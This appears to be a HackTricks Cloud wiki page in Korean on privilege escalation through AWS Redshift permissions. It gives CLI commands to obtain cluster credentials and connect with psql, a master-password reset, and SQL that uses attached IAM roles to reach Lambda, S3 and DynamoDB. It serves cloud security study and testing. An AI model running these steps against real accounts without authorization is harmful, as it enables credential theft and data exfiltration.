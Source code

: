 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

이 권한을 사용하면 **모든 클러스터의 정보**(이름 및 클러스터 사용자 이름 포함)를 얻고 **접속할 수 있는 자격 증명**을 얻을 수 있습니다:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

이 권한을 사용하면 **모든 클러스터의 정보**를 얻고 **액세스할 수 있는 자격 증명**을 얻을 수 있습니다.\
postgres 사용자는 자격 증명을 얻는 데 사용된 **IAM ID의 권한**을 갖게 됩니다.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli를 통해 내부 postgres (redshift) 사용자의 **마스터 비밀번호를 수정**할 수 있습니다 (필요한 권한이라고 생각하지만 아직 테스트하지는 않았습니다):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

## 외부 서비스 접근

{% hint style="warning" %}
다음 리소스에 접근하려면 **사용할 역할을 지정해야** 합니다. Redshift 클러스터는 **사용할 수 있는 AWS 역할 목록을 할당받을 수** 있으며, **ARN을 알고 있다면** 사용할 수 있습니다. 또는 기본으로 할당된 역할을 사용하기 위해 "**default**"로 설정할 수 있습니다.

또한, [**여기에서 설명한 대로**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift는 추가 접근을 위해 역할을 연결할 수 있습니다(첫 번째 역할이 두 번째 역할을 수용할 수 있는 한) 단, **쉼표**로 **구분**해야 합니다: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### 람다

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html)에서 설명한 바와 같이, **Redshift에서 람다 함수를 호출하는 것이 가능합니다**:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)에서 설명된 바와 같이, **S3 버킷에 읽고 쓸 수 있습니다**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html)에서 설명된 바와 같이, **dynamodb에서 데이터를 가져오는 것이 가능합니다**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
데이터를 제공하는 Amazon DynamoDB 테이블은 클러스터와 동일한 AWS 리전에서 생성되어야 하며, 그렇지 않으면 Amazon DynamoDB 테이블이 위치한 AWS 리전을 지정하기 위해 [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) 옵션을 사용해야 합니다.
{% endhint %}

### EMR

Check [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
